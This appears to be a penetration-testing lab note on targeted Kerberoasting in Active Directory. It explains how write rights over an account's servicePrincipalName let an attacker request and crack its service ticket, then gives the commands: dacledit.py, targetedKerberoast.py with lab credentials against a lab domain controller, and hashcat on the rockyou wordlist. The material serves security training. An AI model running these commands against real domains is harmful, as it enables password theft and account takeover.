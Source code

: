 
---
---
[Kerberoasting](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/detecting-ldap-based-kerberoasting-with-azure-atp/ba-p/462448) is a post-exploitation attack that takes advantage of the way `Service Principal Names` (`SPNs`) are used in Active Directory for authentication. When a client requests a Kerberos TGS service ticket, it gets encrypted with the service account’s NTLM password hash. An attacker can obtain this ticket and perform offline password cracking to open it. If successful, the attacker can obtain the service account’s password. The success of this attack depends on the strength of the service account’s password. (Review the [Kerberos Attacks](https://academy.hackthebox.com/module/details/25) module to learn about `Kerberoasting` and other `Kerberos` attacks.)

When an attacker possesses an account with the ability to edit the `servicePrincipalName` attribute of another user account in a domain, they can potentially make that account vulnerable to a `Kerberoasting` attack. By adding an `SPN` to the user account, the attacker can request a Kerberos TGS service ticket for that `SPN` and obtain it, encrypted with the user account's NTLM password hash. The attacker can then use offline password-cracking techniques to try to open the ticket and obtain the user account's password.

This is possible when the controlled account has `GenericAll`, `GenericWrite`, `WriteProperty`, `WriteSPN` or `Validated-SPN` over the target.

## Identifying Vulnerable Accounts

![targeted_kerberoast_bloodhound.png](https://academy.hackthebox.com/storage/modules/219/targeted_kerberoast_bloodhound.png)

```bash
python3 examples/dacledit.py -principal pedro -target Rita -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```

## Targeted Kerberoasting From Linux

```bash
anas21@htb[/htb]$ python3 targetedKerberoast.py -vv -d inlanefreight.local -u pedro -p SecuringAD01 --request-user rita --dc-ip 10.129.205.81
```

## Cracking the kerberoastable hash

```bash
anas21@htb[/htb]$ hashcat -m 13100 /tmp/rita.hash /usr/share/wordlists/rockyou.txt --force
```

---
---
## Note

```c
Note: If we get the error "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)" while running targetedKerberoast.py or any other tool from Linux that use Kerberos as an authentication protocol, we need to sync the Linux machine's clock with the Active Directory DC's clock, using the ntpdate command, for example, sudo ntpdate DC_IP_ADDRESS.
```


```c
timedatectl set-ntp 0
sudo apt install ntpdate -y
sudo ntpdate 10.129.205.81
```

---
---
